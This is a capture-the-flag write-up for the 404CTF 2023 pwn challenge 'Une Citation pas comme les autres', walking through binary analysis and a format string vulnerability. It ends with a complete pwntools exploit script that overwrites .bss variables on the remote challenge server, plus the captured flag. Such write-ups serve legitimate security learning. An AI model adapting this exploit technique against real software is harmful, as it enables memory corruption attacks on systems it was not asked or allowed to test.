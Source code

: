 ```yaml
---
title: CTFs | 404CTF2023 | Une Citation
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, Une Citation1]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/uneCitation1
---
```


# Une Citation pas comme les autres [1/2]


![citation_image](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/3b495da1-5e75-451e-adfb-e29bac5415e9)

> /bin n'est pas monté sur la machine à distance.

We have only one file for this challenge [une_citation_pas_comme_les_autres_1_2](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/une_citation_pas_comme_les_autres_1_2).

To gather more information about the binary file, we can use the following commands:

`file une_citation_pas_comme_les_autres_1_2`: This command provides details about the file's format, architecture, and other relevant information. It helps identify the type of binary file you are dealing with.

`checksec une_citation_pas_comme_les_autres_1_2`: This command checks the security features enabled in the binary file, such as Address Space Layout Randomization (ASLR), Stack Canary, and other protections. It helps assess the level of security measures implemented in the binary.

By executing these commands and providing the name of the binary file, we can obtain more information about its format, security features, and potential vulnerabilities.

```bash
┌──(kali㉿kali)-[~]
└─$ file une_citation_pas_comme_les_autres_1_2 
une_citation_pas_comme_les_autres_1_2: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=8dc288d4fcf863f23a2d6094765775bb3c4330d3, for GNU/Linux 4.4.0, not stripped
                                                                                                    
┌──(kali㉿kali)-[~]
└─$ checksec une_citation_pas_comme_les_autres_1_2 
[*] '~/une_citation_pas_comme_les_autres_1_2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Based on the information provided, it appears that certain exploitation methods can be eliminated based on the characteristics of the binary file:

**Ret2Lib (Return-to-Libc)**: This method relies on the presence of dynamic linking with a libc library. Since the binary is statically linked and does not have access to a libc library, the Ret2Lib technique is not applicable.

**Ret2Syscall (Return-to-Syscall)**: This method involves redirecting the execution flow to invoke specific system calls. However, if the binary does not allow for shell access, the Ret2Syscall technique cannot be used.

Considering these constraints, alternative exploitation techniques may need to be explored to exploit the vulnerability and progress further in the challenge.

## Analysis the binary file

Let's begin with Ghidra:

**Function main()**

![citation_main_1](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/8c9d56ee-09a1-4882-99cd-504547ea4100)

![citation_main_2](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a3fa6bc2-9677-4f27-b5c6-ceec796eb1ab)


As the pictures show, main function gives us three choices and they will call three different functions. Let's look at the other functions that were called in main

**count_quote**

![count_quote](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/f6f402b5-bea3-4538-ad54-e123fe6436c2)

Based on the picture, it appears that the function is deliberately designed to be a joke! Instead of returning the number of quotes as expected, it simply returns a random number. 

**pick_quote**
![pick_quote](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/f9bdb6c5-6e5f-4d5f-9c17-c5051f066da9)

![num_quote_chosen_index](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a3f66bc4-f9ee-4450-bac1-c24088fe453a)

This function performs the following steps:

1. Opens the file citations.txt.
2. Reads the content of the file line by line.
3. Checks the values of the variables chosen_index and num_quotes.0, which are located statically in the .bss segment of the program.
4. If num_quotes.0 is equal to 0, it enters a loop to count the number of citations inside citations.txt and stores the count in num_quotes.0.
5. If num_quotes.0 is greater than 0, it randomly selects chosen_index using the expression chosen_index = iVar1 % (num_quotes.0 - 1). Note that chosen_index cannot be equal to num_quotes.0 due to this line.
6. Based on the logic provided, it is inferred that the flag is located in the last line of the citations.txt file.

It seems that the function is responsible for reading and processing the contents of citations.txt, determining the number of citations, and selecting a random index to access one of the citations. If we don't do something 'unusual' we will never read the last line of the citations.txt file. This suggests to me that the flag is at the end of the file.


**write_quote**

![write_quotes_vuln](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a94d75df-f729-4263-9e31-d072c8d87c01)

And voila, we have a format string vulnerability inside the write_quote function. But how can we using this vuln for getting the flag?

## Exploitation


The only function that lets us read the file now is the `pick_quote` function. So we need to exploit this function (make it behave erratically, of course). So how to make it act abnormally?

Upon closer examination of the file, it becomes evident that it lacks Position Independent Execution (PIE), and the variables num_quotes.0 and chosen_index are situated in the .bss section. This implies that we have the potential to manipulate these values using format strings!

Note that the `if` condition in the code only evaluates the cases where `num_quotes.0` is equal to 0 or greater than 0. This indicates that we have the ability to modify its value by using a negative number, represented in hexadecimal form. By determining the appropriate hexadecimal value, we can manipulate `chosen_index` and gain the flexibility to read quotes from any line in the citations.txt file.

```python
# write chosen_value (that we want), into chosen_index
payload2 = fmtstr_payload(6, {0x4be130:chosen_value}, write_size='int')

# write 0xffffffff (-1) into num_quotes.0
payload = fmtstr_payload(6, {0x4be134:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

payload = fmtstr_payload(6, {0x4be136:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

```

If we know the number of citations contained in the `citations.txt` file we can read directly from it, however this seems impossible. So I did it manually (when `chosen_index` has a value greater than the number of quotes in the file, the server will send an empty string) searching many times I found the number of quotes in the file is `0x139c4`

**The complete code:**

```python

from pwn import *
context.clear(arch='amd64',os='linux')
# p = process("./une_citation_pas_comme_les_autres_1_2")
p = remote("challenges.404ctf.fr", 31719)


###################################################################################

#  write chosen_value (0x139c4), into chosen_index
payload2 = fmtstr_payload(6, {0x4be130:0x139c4}, write_size='int')
p.sendlineafter(b'>>> ',b'1')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload2)

# write 0xffffffff (-1) into num_quotes.0
payload = fmtstr_payload(6, {0x4be134:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

payload = fmtstr_payload(6, {0x4be136:0xffff},write_size='byte')

p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

###################################################################################


p.sendlineafter(b'>>> ',b'1')

print(p.recv().decode())
p.close()


```
**Result**

```bash
$ python3 read_nom.py 
[+] Opening connection to challenges.404ctf.fr on port 31719: Done
404CTF{3H_813N!0U1_C357_M0N_V1C3.D3P141r3_357_M0N_P14151r.J41M3_QU0N_M3_H41553}

[*] Closed connection to challenges.404ctf.fr port 31719

```

**Flag:** `404CTF{3H_813N!0U1_C357_M0N_V1C3.D3P141r3_357_M0N_P14151r.J41M3_QU0N_M3_H41553}`